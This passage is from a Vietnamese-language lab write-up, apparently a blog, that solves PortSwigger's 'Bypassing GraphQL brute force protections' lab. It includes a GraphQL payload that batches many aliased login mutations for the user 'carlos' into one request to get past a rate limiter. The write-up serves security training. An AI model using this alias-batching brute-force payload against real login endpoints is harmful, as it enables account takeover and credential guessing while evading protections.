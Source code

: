 <img width="623" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/94b46f7a-d6b2-470e-b9b5-e485c261f665">

LAB SOLVED!

<img width="589" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/48870f4e-47ac-491c-a94c-e7f59902d56c">

***

## 4. Lab: Bypassing GraphQL brute force protections

* Content:
```
The user login mechanism for this lab is powered by a GraphQL API. The API endpoint has a rate limiter that returns an error if it receives too many requests from the same origin in a short space of time.

To solve the lab, brute force the login mechanism to sign in as carlos. Use the list of authentication lab passwords as your password source.

We recommend that you install the InQL extension before attempting this lab. InQL makes it easier to modify GraphQL queries in Repeater.

For more information on using InQL, see Working with GraphQL in Burp Suite.
```
* Exploit:

Truy cập vào chức năng login và thử đăng nhập bằng user/pass bất kỳ => Phát hiện link GraphAPI `POST /graphql/v1`

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/ef897054-22ba-498b-af7e-1175d116c095)

Copy URL cho vào InQL Scanner => Phát hiện mutaion login như sau:

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/5eb8a3f6-263d-4901-a8b4-faafd41b5dee)

Query Payload:

```
mutation {
	login(input:{password: "code*", username: "code*"}) {
		token
		success
	}
}
```

=> Ta cần sinh payload dạng như sau (Dùng Alias để hạn chế Rate limit - Chỉ 1 HTTP request duy nhất để bruteforce nhiều password):

```
    mutation {
        bruteforce0:login(input:{password: "123456", username: "carlos"}) {
              token
              success
          }

          bruteforce1:login(input:{password: "password", username: "carlos"}) {
              token
              success
          }

    ...

          bruteforce99:login(input:{password: "12345678", username: "carlos"}) {
              token
              success
          }
```